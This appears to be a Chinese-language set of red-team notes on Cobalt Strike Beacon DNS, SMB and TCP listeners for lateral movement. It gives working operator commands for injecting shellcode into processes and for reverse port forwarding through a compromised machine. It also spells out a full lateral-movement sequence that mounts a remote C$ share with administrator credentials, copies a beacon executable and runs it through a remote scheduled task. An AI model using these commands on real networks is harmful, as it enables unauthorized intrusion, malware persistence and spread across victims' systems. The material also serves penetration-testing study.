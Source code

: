 #### Beacon DNS
以DNS协议流量建立Beacon连接
![[Pasted image 20230902010220.png]]
- `DNS Hosts`: Beacon回连的主机, 可以添加多个
- `DNS Port (Bind)`: 绑定监听端口
- `DNS Resolver`: 指定NS(Name Server)

#### Beacon SMB
以SMB协议流量建立Beacon连接, 适用于内网横向移动
```
windows/beacon_smb/bind_pipe
```
- `SMB Beacon`使用Windwos的命名管道通过父级Beacon通讯, 当两个Beacons连接后, 子从父获取到任务并发送
- 此流量封装在*SMB协议* (网络文件共享协议 by Windows)中, 相对隐蔽, 绕过防火墙有奇效
- 前提条件: 
	- 目标主机开启了相关的`IPC$`服务
	- 没有禁用或防火墙阻止`IPC$`连接, 没有禁用139和445端口
	- 只能链接由同一个CS实例管理的Beacon
	- 利用以横移必须有目标主机的管理员或具有管理员权限凭据
1. 使用一个HTTP监听器和一个SMB监听器, Pipename可以自定义
2. 右键进入HTTP Beacon的会话控制台, 执行`spawn <SMB-Listener-Name>`, 成功后会出现新会话, 地址处带有链接符号
3. 进程注入SMB Beacon: 进入HTTP Beacon会话控制台, 执行`ps`命令查看主机所有进程信息, 找到对应进程ID并执行进程注入, 完成后出现新的Beacon会话, 地址处带有链接符号
```shell
# 打开[pid]指定的进程, 将[监听器]生成的shellcode注入进程
inject [pid] <x86|x64> [监听器]
```
4. 右键设置监听器为会话中转, 利用已攻陷的机器作为代理, 为其它Beacon会话中转网络流量
```shell
# 在beacon控制台执行如下命令
rportfwd 4445 windows/beacon_reverse_tcp

rportfwd [绑定端口] [转发目的主机] [转发目的端口]
rportfwd stop [绑定端口]
```
5. 使用监听器生成木马文件, 上传到目标不出网主机, 通过IPC$, 计划任务等方式运行木马文件, 成功上线(**被动连接**)
```
shell net use \\192.168.1.3 /user:Administrator "qaz@WSX"
shell dir \\192.168.1.3\C$
upload C:\beacon.exe
shell copy C:\beacon.exe \\192.168.1.3\C$
shell schtasks /create /s 192.168.1.3 /u Administrator /p "qaz@WSX" /sc MINUTE /mo 1 /tn test /tr "C:\\beacon.exe"
```
6. 使用命令连接或断开连接
```
unlink [ip地址]
unlink [ip地址] [pid]
断开与 SMB 命名管道或TCP Beacon的连接

link [目标] [管道名]
link [目标]
连接SMB Beacon并建立控制通道，所有对于SMB Beacon的命令请求都将通过当前Beacon会话，可以指定一个显式的 [管道名] 以连接到特定管道。否则，将使用当前配置文件中的默认管道名
```

#### Beacon TCP
仅与父Beacon通信, 用于内网横向移动
- 连接目标IP的命令是`connect`, 其余命令与smb类似
- 使用stageless的payload